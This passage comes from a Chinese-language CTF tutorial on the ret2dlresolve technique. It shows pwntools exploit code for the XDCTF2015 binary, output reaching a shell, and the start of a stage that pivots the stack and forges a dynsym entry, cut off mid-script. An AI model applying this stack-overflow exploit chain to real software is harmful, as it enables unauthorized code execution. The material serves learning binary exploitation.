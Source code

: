 ```python

r.sendline(rop.chain())
r.interactive()
```

具体效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage4.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 128795
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

##### stage 5

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st_name指向我们自己构造的字符串。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
```